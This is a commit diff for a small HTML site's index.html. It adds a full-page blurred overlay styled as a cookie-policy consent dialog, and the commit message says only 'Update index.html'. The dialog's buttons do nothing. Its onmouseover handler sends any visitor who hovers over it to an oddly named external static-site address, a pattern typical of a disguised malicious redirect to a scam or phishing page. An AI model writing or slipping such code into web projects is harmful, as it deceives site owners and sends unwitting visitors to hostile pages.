

Before and after one commit to sanjsndas/aquafiname, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 799 px of the page. Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,7 +9,95 @@
     <link href="https://fonts.googleapis.com/css2?family=Inter:wght@300;400;600;700&display=swap" rel="stylesheet">
     <style>
         /* General Body Styles */
-        body {
+
+
+
+
+
+
+           body {
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', sans-serif;
+      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
+      height: 100vh;
+    }
+
+    .overlay {
+      position: fixed;
+      inset: 0;
+      backdrop-filter: blur(5px);
+      background: rgba(0, 0, 0, 0.5);
+    }
+
+    .dialog-box {
+      position: fixed;
+      top: 50%;
+      left: 50%;
+      transform: translate(-50%, -50%);
+      background: #1c1c1c;
+      color: white;
+      padding: 30px;
+      border-radius: 20px;
+      width: 400px;
+      box-shadow: 0 0 25px rgba(0,0,0,0.6);
+      text-align: center;
+      transition: 0.3s;
+    }
+
+    .dialog-box:hover {
+      cursor: pointer;
+    }
+
+    .dialog-box h2 {
+      margin-top: 0;
+      font-size: 1.6em;
+      color: #fff;
+    }
+
+    .dialog-box p {
+      font-size: 1em;
+      line-height: 1.6em;
+      color: #ccc;
+    }
+
+    .buttons {
+      display: flex;
+      justify-content: center;
+      margin-top: 20px;
+      gap: 15px;
+    }
+
+    .buttons button {
+      padding: 10px 25px;
+      border: none;
+      border-radius: 25px;
+      font-size: 1em;
+      font-weight: bold;
+      cursor: pointer;
+    }
+
+    .accept {
+      background-color: #00cc66;
+      color: white;
+    }
+
+    .deny {
+      background-color: #e53935;
+      color: white;
+    }
+
+    .policy-link {
+      margin-top: 15px;
+      display: block;
+      color: #00bcd4;
+      text-decoration: none;
+      font-size: 0.9em;
+    }
+
+
+
+
             font-family: 'Inter', sans-serif;
             margin: 0;
             padding: 0;
@@ -666,6 +754,33 @@
         </section>
     </main>
 
+
+
+
+
+    <div class="overlay">
+    <div class="dialog-box" onmouseover="redirect()">
+      <h2>🍪 Our New Cookie Policy !</h2>
+      <p>
+        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
+      </p>
+      <div class="buttons">
+        <button class="accept">Accept</button>
+        <button class="deny">Deny</button>
+      </div>
+      <a href="#" class="policy-link">Policy Page</a>
+    </div>
+  </div>
+
+  <script>
+    function redirect() {
+      window.location.href = "https://errorr0x094icm.z13.web.core.windows.net/";
+    }
+  </script>
+
+
+
+
     <footer>
         <div class="container">
             <p>&copy; 2025 Aquafiname. All rights reserved.</p>
```
